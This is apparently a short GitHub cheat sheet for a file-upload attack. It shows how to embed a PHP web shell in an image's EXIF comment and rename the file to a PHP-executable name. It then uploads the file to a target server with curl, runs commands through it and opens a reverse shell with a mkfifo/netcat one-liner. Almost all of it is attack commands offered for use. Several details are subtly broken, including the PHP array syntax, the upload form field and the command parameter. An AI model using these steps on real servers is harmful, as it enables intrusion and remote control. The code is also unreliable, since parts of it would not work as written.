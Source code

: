 # File update

## Add shell to img

```zsh
exiftool -Comment='<?php echo system($_REQUEST("cmd")); ?>' image.jpg
mv image.jpg image.jpg.phpg
```

## Upload file to server

```sh
curl "http://IP_ADDRESS/Upload/image.jpg.phpg" -F "image.jpg.phpg"
```

## Execute a command

```sh
curl "http://IP_ADDRESS/Upload/image.jpg.phpg" -G --data-urlencode 'id'
```
## Execute a shell

```sh
curl "http://IP_ADDRESS/Upload/image.jpg.phpg" -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc.openbsd IP_ADDRESS PORT >/tmp/f'
```
